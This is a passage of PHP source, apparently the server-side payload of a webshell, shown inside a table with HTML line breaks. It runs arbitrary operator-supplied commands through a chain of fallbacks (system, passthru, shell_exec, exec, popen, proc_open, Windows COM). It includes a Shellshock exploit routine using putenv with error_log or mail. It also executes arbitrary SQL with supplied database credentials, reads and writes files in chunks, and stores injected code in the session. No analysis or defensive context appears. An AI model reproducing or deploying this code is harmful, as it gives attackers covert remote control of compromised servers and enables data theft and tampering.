$ret=0;<br><br>    if (!function_exists("runshellshock")){<br>        function runshellshock($d, $c) {<br>            if (substr($d, 0, 1) == "/" && function_existsEx('putenv') && (function_existsEx('error_log') \| function_existsEx('mail'))) {<br>                if (strstr(readlink("/bin/sh"), "bash") != FALSE) {<br>                    $tmp = tempnam(sys_get_temp_dir(), 'as');<br>                    putenv("PHP_LOL=() { x; }; $c >$tmp 2>&1");<br>                    if (function_existsEx('error_log')) {<br>                        error_log("a", 1);<br>                    } else {<br>                        mail("a@127.0.0.1", "", "", "-bv");<br>                    }<br>                } else {<br>                    return False;<br>                }<br>                $output = @file_get_contents($tmp);<br>                @unlink($tmp);<br>                if ($output != "") {<br>                    print($output);<br>                    return True;<br>                }<br>            }<br>            return False;<br>        };<br>    }<br><br>    if(function_existsEx('system')){<br>        @system($cmdLine,$ret);<br>    }elseif(function_existsEx('passthru')){<br>        @passthru($cmdLine,$ret);<br>    }elseif(function_existsEx('shell_exec')){<br>        print(@shell_exec($cmdLine));<br>    }elseif(function_existsEx('exec')){<br>        @exec($cmdLine,$o,$ret);<br>        print(join("\n",$o));<br>    }elseif(function_existsEx('popen')){<br>        $fp=@popen($cmdLine,'r');<br>        while(!@feof($fp)){<br>            print(@fgets($fp,2048));<br>        }<br>        @pclose($fp);<br>    }elseif(function_existsEx('proc_open')){<br>        $p = @proc_open($cmdLine, array(1 => array('pipe', 'w'), 2 => array('pipe', 'w')), $io);<br>        while(!@feof($io[1])){<br>            print(@fgets($io[1],2048));<br>        }<br>        while(!@feof($io[2])){<br>            print(@fgets($io[2],2048));<br>        }<br>        @fclose($io[1]);<br>        @fclose($io[2]);<br>        @proc_close($p);<br>    }elseif(runshellshock($d, $cmdLine)) {<br>        print($ret);<br>    }elseif(substr($d,0,1)!="/" && @class_exists("COM")){<br>        $w=new COM('WScript.shell');<br>        $e=$w->exec($cmdLine);<br>        $so=$e->StdOut();<br>        print($so->ReadAll());<br>        $se=$e->StdErr();<br>        print($se->ReadAll());<br>    }else{<br>        return "none of proc_open/passthru/shell_exec/exec/exec/popen/COM/runshellshock is available";<br>    }<br>    print(($ret!=0)?"ret={$ret}":"");<br>    $result = @ob_get_contents();<br>    @ob_end_clean();<br>    return $result;<br>}<br>function execSql(){<br>    $dbType=get("dbType");<br>    $dbHost=get("dbHost");<br>    $dbPort=get("dbPort");<br>    $username=get("dbUsername");<br>    $password=get("dbPassword");<br>    $execType=get("execType");<br>    $execSql=get("execSql");<br>    function  mysql_exec($host,$port,$username,$password,$execType,$sql){<br>        // 创建连接<br>        $conn = new mysqli($host,$username,$password,"",$port);<br>        // Check connection<br>        if ($conn->connect_error) {<br>            return $conn->connect_error;<br>        }<br><br>        $result = $conn->query($sql);<br>        if ($conn->error){<br>            return $conn->error;<br>        }<br>        $result = $conn->query($sql);<br>        if ($execType=="update"){<br>            return "Query OK, "+$conn->affected_rows+" rows affected";<br>        }else{<br>            $data="ok\n";<br>            while ($column = $result->fetch_field()){<br>                $data.=base64_encode($column->name)."\t";<br>            }<br>            $data.="\n";<br>            if ($result->num_rows > 0) {<br>                // 输出数据<br>                while($row = $result->fetch_assoc()) {<br>                    foreach ($row as $value){<br>                        $data.=base64_encode($value)."\t";<br>                    }<br>                    $data.="\n";<br>                }<br>            }<br>            return $data;<br>        }<br>    }<br>    function pdoExec($databaseType,$host,$port,$username,$password,$execType,$sql){<br>        try {<br>            $conn = new PDO("{$databaseType}:host=$host;port={$port};", $username, $password);<br><br>            // 设置 PDO 错误模式为异常<br>            $conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);<br><br>            if ($execType=="update"){<br>                return "Query OK, "+$conn->exec($sql)+" rows affected";<br>            }else{<br>                $data="ok\n";<br>                $stm=$conn->prepare($sql);<br>                $stm->execute();<br>                $row=$stm->fetch(PDO::FETCH_ASSOC);<br>                $_row="\n";<br>                foreach (array_keys($row) as $key){<br>                    $data.=base64_encode($key)."\t";<br>                    $_row.=base64_encode($row[$key])."\t";<br>                }<br>                $data.=$_row."\n";<br>                while ($row=$stm->fetch(PDO::FETCH_ASSOC)){<br>                    foreach (array_keys($row) as $key){<br>                        $data.=base64_encode($row[$key])."\t";<br>                    }<br>                    $data.="\n";<br>                }<br>                return $data;<br>            }<br><br>        }<br>        catch(PDOException $e)<br>        {<br>            return $e->getMessage();<br>        }<br>    }<br>    if ($dbType=="mysql"){<br>        if (extension_loaded("mysqli")){<br>            return mysql_exec($dbHost,$dbPort,$username,$password,$execType,$execSql);<br>        }else if (extension_loaded("pdo")){<br>            return pdoExec($dbType,$dbHost,$dbPort,$username,$password,$execType,$execSql);<br>        }else{<br>            return "no extension";<br>        }<br>    }else if (extension_loaded("pdo")){<br>        return pdoExec($dbType,$dbHost,$dbPort,$username,$password,$execType,$execSql);<br>    }else{<br>        return "no extension";<br>    }<br>    return "no extension";<br><br>}<br>function base64Encode($data){<br>    return base64_encode($data);<br>}<br>function test(){<br>    return "ok";<br>}<br>function get($key){<br>    global $parameters;<br>    if (isset($parameters[$key])){<br>        return $parameters[$key];<br>    }else{<br>        return null;<br>    }<br>}<br>function getAllParameters(){<br>    global $parameters;<br>    return $parameters;<br>}<br>function includeCode(){<br>    $classCode=get("binCode");<br>    $codeName=get("codeName");<br>    $_SES=&getSession();<br>    $_SES[$codeName]=$classCode;<br>    return "ok";<br>}<br>function base64Decode($string){<br>    return base64_decode($string);<br>}<br>function convertFilePermissions($fileAttr){<br>    $mod=0;<br>    if (strpos($fileAttr,'R')!==false){<br>        $mod=$mod+0444;<br>    }<br>    if (strpos($fileAttr,'W')!==false){<br>        $mod=$mod+0222;<br>    }<br>    if (strpos($fileAttr,'X')!==false){<br>        $mod=$mod+0111;<br>    }<br>    return $mod;<br>}<br>function close(){<br>    @session_start();<br>    $_SES=&getSession();<br>    $_SES=null;<br>    if (@session_destroy()){<br>        return "ok";<br>    }else{<br>        return "fail!";<br>    }<br>}<br><br>function bigFileDownload(){<br>    $mode=get("mode");<br>    $fileName=get("fileName");<br>    $readByteNum=get("readByteNum");<br>    $position=get("position");<br>    if ($mode=="fileSize"){<br>        if (@is_readable($fileName)){<br>            return @filesize($fileName)."";<br>        }else{<br>            return "not read";<br>        }<br>    }elseif ($mode=="read"){<br><br>        if (function_existsEx("fopen")&&function_existsEx("fread")&&function_existsEx("fseek")){<br>            $handle=fopen($fileName,"ab+");<br>            fseek($handle,$position);<br>            $data=fread($handle,$readByteNum);<br>            @fclose($handle);<br>            if ($data!==false){<br>                return $data;<br>            }else{<br>                return "cannot read file";<br>            }<br>        }else if (function_existsEx("file_get_contents")){<br>            return file_get_contents($fileName,false,null,$position,$readByteNum);<br>        }else{<br>            return "no function";<br>        }<br><br>    }else{<br>        return "no mode";<br>    }<br>}<br><br>function bigFileUpload(){<br>    $fileName=get("fileName");<br>    $fileContents=get("fileContents");<br>    $position=get("position");<br>    if(function_existsEx("fopen")&&function_existsEx("fwrite")&&function_existsEx("fseek")){<br>        $handle=fopen($fileName,"ab+");<br>        if ($handle!==false){<br>            fseek($handle,$position);<br>            $len=fwrite($handle,$fileContents);<br>            if ($len!==false){<br>                return "ok";<br>            }else{<br>                return "cannot write file";<br>            }<br>            @fclose($handle);<br>        }else{<br>            return "cannot open file";<br>        }<br>    }else if (function_existsEx("file_put_contents")){<br>        if (file_put_contents($fileName,$fileContents,FILE_APPEND)!==false){<br>            return "ok";<br>        }else{<br>            return "writer fail";<br>        }<br>    }else{<br>        return "no function";<br>    }<br>}<br>function canCallGzipEncode(){<br>    if (function_existsEx("gzencode")){<br>        return "1";<br>    }else{<br>        return "0";<br>    }<br>}<br>function canCallGzipDecode(){<br>    if (function_existsEx("gzdecode")){<br>        return "1";<br>    }else{<br>        return "0";<br>    }<br>}<br>function bytesToInteger($bytes, $position) {<br>    $val = 0;<br>    $val = $bytes[$position + 3] & 0xff;<br>    $val <<= 8;<br>    $val \|= $bytes[$position + 2] & 0xff;<br>    $val <<= 8;<br>    $val \|= $bytes[$position + 1] & 0xff;<br>    $val <<= 8;<br>    $val \|= $bytes[$position] & 0xff;<br>    return $val;<br>}<br>function isGzipStream($bin){<br>    if (strlen($bin)>=2){<br>        $bin=substr($bin,0,2);<br>        $strInfo = @unpack("C2chars", $bin);<br>        $typeCode = intval($strInfo['chars1'].$strInfo['chars2']);<br>        switch ($typeCode) {<br>            case 31139:<br>                return true;<br>                break;<br>            default:<br>                return false;<br>        }<br>    }else{<br>        return false;<br>    }<br>}<br>function getBytes($string) {<br>    $bytes = array();<br>    for($i = 0; $i < strlen($string); $i++){<br>        array_push($bytes,ord($string[$i]));<br>    }<br>    return $bytes;<br>}<br>?><br>``` |
